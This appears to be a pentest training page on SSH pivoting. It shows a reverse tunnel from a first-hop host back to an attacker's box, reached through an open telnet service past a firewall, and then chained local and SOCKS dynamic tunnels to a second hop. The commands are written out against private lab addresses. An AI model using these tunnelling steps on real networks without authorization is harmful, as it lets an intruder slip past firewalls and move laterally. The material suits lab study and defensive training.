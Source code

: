 ```bash
ssh thirdhop@localhost -p 22222 -D 9050 -NT
```



## <mark style="color:red;">Reverse (-R) Tunnel to 1st Hop</mark>

<figure><img src="../.gitbook/assets/Reverse_Firsthop.jpg" alt=""><figcaption></figcaption></figure>

1. Firewall is blocking port 22 on the First Hop. Telnet is open. Use that to gain access, then ssh back to the Attack Box.

```bash
telnet 10.30.20.1
```

1a.   From the First Hop TELNET session, setup a Reverse tunnel to the attackers port 11111 that reaches back to First Hop's port 22.

This reverse tunnel is reaching through the firewall back to the attacker, opening a tunnel to the First Hop's port 22.

This tunnel is connected to First Hop's port 22 but an SSH session has not yet been created.

```bash
ssh attack_user@10.30.0.1 -R 11111:localhost:22 -NT
```

2. Authenticate and connect to the local port 11111 which is connected to port 22 on First Hop.

Creates a dynamic tunnel through the firewall to port 22 on First Hop.

```bash
ssh firsthop_user@localhost -p 11111 -D 9050 -NT
```

3. Use dynamic tunnel on local port 11111 to reach through the First Hop and reach Second Hop's port 22. Attach that tunnel to local port 22222.

```bash
ssh firsthop_user@localhost -p 11111 -L 22222:10.1.1.2:22 -NT
```

4. Make local port 22222 tunnel dynamic and create SSH session to Second Hop.

```bash
ssh secondhop_user@localhost -p 22222 -D 9050 -NT
```
